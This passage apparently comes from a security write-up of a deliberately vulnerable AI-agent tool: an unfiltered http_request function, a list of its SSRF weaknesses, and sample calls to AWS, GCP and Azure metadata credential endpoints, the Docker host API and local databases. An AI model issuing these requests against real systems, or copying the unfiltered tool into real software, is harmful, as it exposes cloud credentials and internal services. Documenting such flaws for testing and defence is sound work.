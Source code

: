 
### 3. HTTP Requests

**http_request(url: str, method: str = "GET", data: dict = None)**
```python
def http_request(url: str, method: str = "GET", data: dict = None) -> str:
    """Make HTTP requests - NO URL FILTERING."""
    try:
        import requests
        response = requests.request(
            method=method.upper(),
            url=url,
            json=data,
            timeout=10
        )
        return f"Status: {response.status_code}\n{response.text}"
    except Exception as e:
        return f"Error: {str(e)}"
```

**Vulnerabilities**:
- ❌ No URL validation
- ❌ SSRF: file:// protocol works
- ❌ SSRF: localhost access allowed
- ❌ SSRF: internal IP ranges accessible
- ❌ SSRF: Cloud metadata server accessible
- ❌ No method restrictions (POST = exfiltration)
- ❌ No protocol blocking

**Critical SSRF Targets**:
```python
# AWS Metadata
http_request("http://169.254.169.254/latest/meta-data/iam/security-credentials/")

# GCP Metadata
http_request("http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token")

# Azure Metadata
http_request("http://169.254.169.254/metadata/instance?api-version=2021-02-01")

# Docker host
http_request("http://172.17.0.1:2375/containers/json")

# Local services
http_request("http://localhost:6379")  # Redis
http_request("http://localhost:5432")  # PostgreSQL
```

---

### 4. Python Code Execution
